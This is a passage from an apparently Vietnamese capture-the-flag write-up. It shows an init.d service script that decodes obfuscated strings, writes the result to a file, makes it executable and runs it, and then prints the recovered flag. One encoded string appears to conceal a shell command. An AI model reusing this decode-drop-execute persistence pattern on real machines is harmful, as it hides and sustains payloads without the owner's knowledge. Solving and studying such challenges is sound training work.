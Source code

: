 ```
        i=$((i+6))
    done
    echo "$payload"
}

# ENCHANTED strings
ENCHANTED_PATH="MZolj/onNzUtGEMrLmZjjrgprmKwL/xcUclbzQqpeagLsHYcnBeuNkTWiLaduoxKGoLdmsRoNsrdDrjCksD.nFFiksEAYUQhOHsOK"
ENCHANTED_STRING="pfXya/kxqlGbKSPOdikkkUFneWGvk/ATUHObOIgGWaBKYZOsEXWVghZSygL nAIBf-UlMDeiMasOY hwnXE>pbkdm&CJjQK ZULrp/IwnjWdJkTMEePmysevNjfCB/JlMRvtNFdlKciUeGmpMJJxq/AEacj1ApwVV0vQaJr.qQhHU0hmDRa.ihgtX0tsiBd.kawOW6Ekxfl/XwTlz1bRFlJ2XiOHY3ujqyy4QrLBa sQwaF0EQcvD>LpYku&Fyakx1shVgW"

b="sJddrLOwQzD3SwoKPavkMSxkXsAXn{CvzIEiaRxQCnkMjFZiSIjBAtkUwvbdPMZbW_udhQT2inbJn_VLZtRbJPTCm0gsJDF0yUiZi7paJvr5giIKI}DScGa"

# Decode the ENCHANTED path and script
MYSTICPORTAL_PATH=$(decode_payload "$b")
MYSTICPORTAL_SCRIPT=$(decode_payload "$b")
a=$(decode_payload "$b")
echo a
start() {
    echo "Starting mysticportal service..."
    if [ ! -f "$MYSTICPORTAL_PATH" ]; then
        echo "MYSTICPORTAL script not found, recreating..."
        echo "$MYSTICPORTAL_SCRIPT" > "$MYSTICPORTAL_PATH"
        chmod +x "$MYSTICPORTAL_PATH"
    fi
    # Start the MYSTICPORTAL script or service
    "$MYSTICPORTAL_PATH"
}

stop() {
    echo "Stopping MYSTICPORTAL service..."
    # Code to stop the MYSTICPORTAL service
}

case "$1" in
    start)
        start
        ;;
    stop)
        stop
        ;;
    *)
        echo "Usage: /etc/init.d/MYSTICPORTAL {start|stop}"
        exit 1
        ;;
esac

exit 0

```
- Mình chạy nó thì nó hiện ra flag kèm với 1 file có tên trừng với flag ta thu được.
```
$ ./tool.bash start
a
Starting mysticportal service...
MYSTICPORTAL script not found, recreating...
./tool.bash: line 42: L3ak{initd_2_b0075}: command not found
```
